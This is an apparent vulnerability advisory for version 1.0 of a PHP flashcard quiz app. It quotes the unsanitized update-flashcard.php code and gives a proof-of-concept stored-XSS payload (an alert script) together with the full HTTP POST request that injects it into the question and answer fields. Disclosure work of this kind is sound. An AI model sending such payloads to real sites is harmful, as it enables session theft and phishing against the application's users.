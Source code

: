 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [Flashcard Quiz App Using PHP and MySQL 1.0](https://www.sourcecodester.com/php/17160/flashcard-quiz-app-using-php-and-mysql-source-code.html) <br/>

**Affected Version**:
> Flashcard Quiz App Using PHP and MySQL 1.0

**Affected Site Page**: 
> /flashcard-quiz/endpoint/update-flashcard.php<br/>

**Affected Code**: 
> </update-flashcard.php> <br/>

There is not input sanitization present when updating flashcards, making the web application vulnerable to XSS.

```php
<?php
include("../conn/conn.php");

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_POST['question'], $_POST['answer'])) {
        $cardID = $_POST['tbl_card_id'];
        $question = $_POST['question'];
        $answer = $_POST['answer'];

        try {
            $stmt = $conn->prepare("UPDATE tbl_card SET question = :question, answer = :answer WHERE tbl_card_id = :tbl_card_id");
            
            $stmt->bindParam(":tbl_card_id", $cardID, PDO::PARAM_STR);
            $stmt->bindParam(":question", $question, PDO::PARAM_STR);
            $stmt->bindParam(":answer", $answer, PDO::PARAM_STR);

            $stmt->execute();

            header("Location: http://localhost/flashcard-quiz/");

            exit();
        } catch (PDOException $e) {
            echo "Error:" . $e->getMessage();
        }

    } else {
        echo "
            <script>
                alert('Please fill in all fields!');
                window.location.href = 'http://localhost/flashcard-quiz/';
            </script>
        ";
    }
}
?>

```

**Related CWE:**
> [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)

## **Details:**
> Allows XSS by placing untrusted code on the parameters `question` and `answer`.

Payload used is `%3Cscript%3Ealert%28%27reigz+was+here%27%29%3C%2Fscript%3E` for both parameters.

```http 
POST /flashcard-quiz/endpoint/update-flashcard.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 147
Connection: close

tbl_card_id=3&question=%3Cscript%3Ealert%28%27reigz+was+here%27%29%3C%2Fscript%3E&answer=%3Cscript%3Ealert%28%27reigz+was+here%27%29%3C%2Fscript%3E
```

![image](https://github.com/smurf-reigz/security/assets/48426940/ab39c7bb-ef81-4b9f-9e8f-64bf1ac16518)


## **Vulnerability Impact:**
> Once the malicious script is injected, the attacker can perform a variety of malicious activities. The attacker could transfer private information, such as cookies that may include session information, from the victim's machine to the attacker. The attacker could send malicious requests to a web site on behalf of the victim, which could be especially dangerous to the site if the victim has administrator privileges to manage that site. Phishing attacks could be used to emulate trusted web sites and trick the victim into entering a password, allowing the attacker to compromise the victim's account on that web site. Finally, the script could exploit a vulnerability in the web browser itself possibly taking over the victim's machine, sometimes referred to as "drive-by hacking."
